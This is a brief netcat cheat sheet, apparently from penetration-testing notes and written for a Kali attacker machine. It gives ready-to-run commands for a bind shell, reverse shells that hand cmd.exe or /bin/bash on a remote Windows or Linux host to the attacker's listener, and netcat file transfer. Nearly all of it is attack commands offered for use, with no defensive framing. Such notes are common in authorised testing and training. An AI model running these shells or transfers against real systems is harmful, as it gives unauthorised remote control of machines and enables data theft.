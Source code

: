 # Netcat


**Basic bind shell:**
```sh
nc -nvlp 443           # On local Kali
nc -nv <REMOTE-IP> 443 # On remote
```

**Basic reverse shell:**
```sh
sudo nc -nlvp 443                  # On local Kali
nc -nv <LOCAL-IP> 443 -e cmd.exe   # On remote Windows
nc -nv <LOCAL-IP> 443 -e /bin/bash # On remote Linux
```

**Sending files:**
```sh
sudo nc -nvlp 443 > incoming.exe     # Reciever
nc -nv <LOCAL-IP> 443 < incoming.exe # Sender
```

